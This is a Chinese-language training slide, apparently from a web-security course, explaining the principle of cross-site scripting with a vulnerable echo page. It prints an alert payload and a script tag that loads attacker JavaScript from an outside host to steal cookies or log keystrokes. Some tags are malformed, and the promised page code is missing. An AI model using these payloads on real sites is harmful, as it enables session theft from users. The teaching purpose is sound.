

# XSS原理解析
下面是一段简单的XSS漏洞实例，其代码功能是接收用户在Index.html页面中提交的数 据，再将数据显示在PrintStr页面。
– Index.html 页面代码如：

– PrintStr 页 面
代码如下：
当攻击者输入<script>alert(xss/)</scrip>时，将触发XSS攻击。
攻击者可以在<script>与</script>之间输入JavaScript代码，实现一些“特殊效果”。
在真实的攻击中，攻击者不仅仅弹出一个alert框，通常还使用<script
src="http://www.secbug.org/x.txt"></scrip>方式来加载外部脚本，而在x.txt中就存放着
攻击者的恶意JavaScript代码，这段代码可能是用来盗取用户的Cookie，也可能是监控 键盘记录等。